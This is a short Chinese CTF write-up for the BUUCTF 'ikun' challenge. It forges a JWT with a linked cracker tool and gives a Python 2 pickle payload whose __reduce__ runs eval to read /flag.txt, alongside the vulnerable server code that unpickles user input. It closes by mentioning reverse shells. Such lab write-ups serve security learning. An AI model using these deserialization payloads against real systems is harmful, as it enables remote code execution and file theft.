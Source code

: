 # buu摸鱼日记之14

## [CISCN2019 华北赛区 Day1 Web2]ikun

被彻底吊打了，真的不会

两个知识点，一个是jwt，弄到了git的工具

[jwtdebuger](https://jwt.io/) 

以及git某大佬的工具https://github.com/brendan-rius/c-jwt-cracker

直接build就可以用，非常方便

伪造jwt来访问admin

第二个是py的反序列化

```python
import pickle
import urllib
 
class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))
 
a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

因为网站用的 是py2，所以说写也要用Py2

具体是根据

```python
    def post(self, *args, **kwargs):
        try:
			become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
```

> 我们要返回的是flag.txt的字节流，所以我们需要返回一个元组，这个元组包含两个必选的参数，第一个可调用的对象，我们这里用的eval，第二个参数，我们使用的是open(’/flag.txt’,‘r’).read()

https://blog.csdn.net/sxingming/article/details/52164249 python序列化，这个东西和php差不多

> #### `__reduce__(self)`
>
> 如果pickle的数据包含了自定义的扩展类（比如使用C语言实现的Python扩展类）时，就需要通过实现`__reduce__`方法来控制行为了。由于使用过于生僻，这里就不展开继续讲解了。
>
> 令人容易混淆的是，我们知道, `reduce()`是Python的一个內建函数, 需要指出`__reduce__`并非定义了`reduce()`的行为，二者没有关系。



## 今天还玩了一下反弹shell，老有意思了

https://xz.aliyun.com/t/2549写的非常好，i了